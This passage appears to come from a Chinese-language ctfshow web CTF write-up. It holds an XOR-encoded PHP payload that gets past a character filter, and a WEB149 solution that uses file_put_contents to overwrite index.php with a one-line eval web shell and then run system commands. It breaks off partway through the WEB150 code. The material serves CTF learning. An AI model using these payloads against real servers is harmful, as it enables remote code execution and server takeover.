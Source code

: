 ```
}
```

都被过滤了直接考虑异或构造

```
payload：

code=("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%09%01%03%01%06%02"^"%7d%60%60%21%60%28");
```



## WEB149

```
$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}

file_put_contents($_GET['ctf'], $_POST['show']);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
```

思路file_put_contents($_GET['ctf'], $_POST['show']);这里可以将show的内容写入ctf中

那么下面正则了index.php就往这里面写一句话

payload：

```
ctf=index.php
show=<?php eval($_POST[a]);?>
a=system("ls");
```



## WEB150

```
 <?php
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

function __construct(){
    $this->vip = 0;
    $this->secret = $flag;
```